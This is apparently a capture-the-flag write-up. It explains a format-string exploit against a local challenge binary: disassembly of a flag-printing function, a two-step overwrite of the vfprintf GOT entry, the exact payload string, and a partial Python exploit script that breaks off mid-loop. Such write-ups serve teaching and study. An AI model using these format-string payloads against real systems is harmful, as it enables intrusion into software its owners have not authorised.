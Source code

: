 ```bash
 80487f8:	53                   	push   %ebx
 80487f9:	e8 e2 fc ff ff       	call   80484e0 <_IO_getc@plt>
 80487fe:	83 c4 10             	add    $0x10,%esp
 8048801:	3c ff                	cmp    $0xff,%al
 8048803:	75 db                	jne    80487e0 <vfprintf@plt+0x270>
 8048805:	83 ec 0c             	sub    $0xc,%esp
 8048808:	53                   	push   %ebx
 8048809:	e8 b2 fc ff ff       	call   80484c0 <fclose@plt>
 804880e:	83 c4 10             	add    $0x10,%esp
 8048811:	83 ec 0c             	sub    $0xc,%esp
 8048814:	6a 00                	push   $0x0
 8048816:	e8 f5 fc ff ff       	call   8048510 <exit@plt>
```

It seems like this function is never called, yet it does open the flag and spits out the contents. I verified this from within `gdb` by running `set $eip=0x80487c0` and then continuing execution. Indeed, it spat out the bogus flag of my local system. I leveraged the string format vulnerability to overwrite a got pointer force the binary to execute that function. I chose to overwrite `vfprintf`, because that's called a lot by the binary. I needed to overwrite this pointer in two steps. First, the lower two bytes are overwritten with `0x87c0`. Then the higher two bytes are overwritten with `0x0804`. When the binary then wants to call `vfprintf`, code execution is redirected to `0x80487c0`!

The exploit now sends the first username: `cmd ="%AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%34719c%36$hn%32836c%37$n"`. This contains the `%` character and the rest of the format string. I found the proper offset for the direct addressing (`%36$hn`) simply by trying a few values together with a name that contained "AAAABBBBCCCC" blocks. The rest of the padding (`%34719c` for instance) is simply by running `gdb` and taking note of the address where the binary crashes. Adding the right amount of padding, observing the crash again, etc.

The final exploit:

```python
#!/usr/bin/python

from socket import *
from time import sleep
import telnetlib, struct

s=socket(AF_INET, SOCK_STREAM)
s.connect(('localhost', 7778))

# wait before continuing, allows attaching with gdb.
raw_input()

# receive banner
print s.recv(1024)
sleep(0.01)

# send string format name
cmd ="%AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%34719c%36$hn%32836c%37$n"

s.send(cmd+"\n")

# try to beat the game
while 1:
	sleep(0.01)

	data = s.recv(1024)

	print data
	
	# proper responses
	if "LEVEL" in data:
		cmd = "h\n"
	if "exhausted" in data:
```